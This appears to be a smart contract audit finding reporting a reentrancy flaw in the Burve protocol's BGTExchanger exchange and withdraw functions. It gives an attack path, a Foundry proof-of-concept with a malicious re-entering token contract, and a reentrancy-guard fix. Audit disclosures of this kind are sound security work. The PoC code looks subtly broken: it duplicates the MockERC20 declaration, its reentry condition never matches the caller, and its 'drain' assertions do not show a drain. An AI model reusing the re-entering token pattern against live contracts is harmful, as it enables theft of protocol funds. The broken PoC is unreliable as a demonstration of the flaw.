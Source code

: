 Straight Admiral Iguana

High

# Attacker Will Drain BGT Funds and Affect Liquidation Rewards Due to Missing Reentrancy Guard in BGTExchanger.sol::exchange and BGTExchanger.sol::withdraw

### Summary

The absence of a reentrancy guard in [BGTExchanger.sol ](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/integrations/BGTExchange/BGTExchanger.sol#L81C4-L87C6)will cause a fund drain for the protocol and liquidators as an attacker will deploy a malicious token to reenter exchange or withdraw, inflating owed or claiming excessive BGT, disrupting liquidation reward distribution.



### Root Cause

In [BGTExchanger.sol:30-49](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/integrations/BGTExchange/BGTExchanger.sol#L30C4-L49C1) and [BGTExchanger.sol:81-87](https://github.com/sherlock-audit/2025-04-burve/blob/main/Burve/src/integrations/BGTExchange/BGTExchanger.sol#L80C5-L87C6), the lack of a nonReentrant modifier on exchange and withdraw is a mistake as external calls to TransferHelper.safeTransferFrom and safeTransfer allow a malicious token or recipient to reenter the contract before state updates, manipulating owed or bgtBalance.



### Internal Pre-conditions

1. Admin needs to call `setRate(address inToken, uint256 rateX128)` to `set rate[inToken]` to be other than 0 for a malicious token.
2. Admin needs to call `addExchanger(address caller)` to set `isExchanger[Diamond Proxy]` to be true for the Diamond Proxy.
3. Protocol needs to have `bgtBalance` to be at least 1 BGT in `BGTExchanger.sol`.



### External Pre-conditions

1. Attacker needs to deploy a malicious token with a`transferFrom` hook that reenters exchange or a malicious recipient contract for withdraw.
2. Malicious token needs to be approved by the Diamond Proxy for transfers to BGTExchanger.sol



### Attack Path

1. Attacker deploys MaliciousToken with a `transferFrom` hook that reenters BGTExchanger.exchange.
2. Admin registers `MaliciousToken via setRate and addExchanger.`
3. Liquidation process in ValueFacet.sol calls `SimplexLib.bgtExchange`, invoking `BGTExchanger.exchange` with MaliciousToken.
4. exchange calls `TransferHelper.safeTransferFrom`, triggering MaliciousToken.transferFrom.
5. transferFrom reenters exchange, accumulating owed[Diamond Proxy] before the first call updates owed.
6. Attacker calls withdraw, claiming inflated BGT, draining bgtBalance.
7.  Alternatively, in withdraw, a malicious recipient reenters withdraw, claiming BGT multiple times.



### Impact

The protocol and liquidators cannot distribute liquidation rewards, suffering an approximate loss of the entire bgtBalance (e.g., 1000 BGT). The attacker gains this BGT amount, depleting protocol funds and disrupting liquidation incentives.



### PoC

```solidity

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.27;

import {Test} from "forge-std/Test.sol";
import {BGTExchanger} from "../src/multi/BGTExchanger.sol";
import {MockERC20} from "./mocks/MockERC20.sol";

contract BGTExchangerReentrancyTest is Test {
    BGTExchanger exchanger;
    MockERC20 bgt;
    MaliciousToken maliciousToken;
    address diamond = address(0x123);

    function setUp() public {
        bgt = new MockERC20("BGT", "BGT", 18);
        exchanger = new BGTExchanger(address(bgt));
        maliciousToken = new MaliciousToken(address(exchanger));
        vm.prank(exchanger.owner());
        exchanger.addExchanger(diamond);
        vm.prank(exchanger.owner());
        exchanger.setRate(address(maliciousToken), 1 << 128);
        vm.prank(diamond);
        maliciousToken.mint(diamond, 1000e18);
        vm.prank(diamond);
        maliciousToken.approve(address(exchanger), type(uint256).max);
        vm.prank(diamond);
        bgt.mint(diamond, 1000e18);
        vm.prank(diamond);
        bgt.approve(address(exchanger), type(uint256).max);
        vm.prank(diamond);
        exchanger.fund(1000e18);
    }

    function test_reentrancy_drain() public {
        maliciousToken.setAttacker(address(maliciousToken));
        vm.prank(diamond);
        exchanger.exchange(address(maliciousToken), 100e18);
        vm.prank(diamond);
        exchanger.withdraw(diamond, 1000e18);
        assertEq(bgt.balanceOf(diamond), 1000e18, "BGT not drained");
        assertEq(exchanger.bgtBalance(), 0, "BGT balance not zero");
    }
}

contract MaliciousToken is MockERC20 {
    BGTExchanger public exchanger;
    address public attacker;
    bool public reentered;

    constructor(address _exchanger) MockERC20("Malicious", "MAL", 18) {
        exchanger = BGTExchanger(_exchanger);
    }

    function setAttacker(address _attacker) public {
        attacker = _attacker;
    }

    function transferFrom(address from, address to, uint256 amount) public override returns (bool) {
        if (msg.sender == address(exchanger) && !reentered && from == attacker) {
            reentered = true;
            exchanger.exchange(address(this), amount); // Reenter
            reentered = false;
        }
        return super.transferFrom(from, to, amount);
    }
}

contract MockERC20 is ERC20 {
    constructor(string memory name, string memory symbol, uint8 decimals) ERC20(name, symbol) {
        _decimals = decimals;
    }

    uint8 private _decimals;

    function decimals() public view override returns (uint8) {
        return _decimals;
    }

    function mint(address to, uint256 amount) public {
        _mint(to, amount);
    }
}

```

### Mitigation

**Add reentrancy guard** 

```solidity

import {ReentrancyGuardTransient} from "openzeppelin-contracts/utils/ReentrancyGuardTransient.sol";
contract BGTExchanger is IBGTExchanger, ReentrancyGuardTransient {
    function exchange(address inToken, uint128 amount) external nonReentrant returns (uint256 bgtAmount, uint256 spendAmount) {
        ...
    }
    function withdraw(address recipient, uint256 bgtAmount) external nonReentrant {
        ...
    }
}

```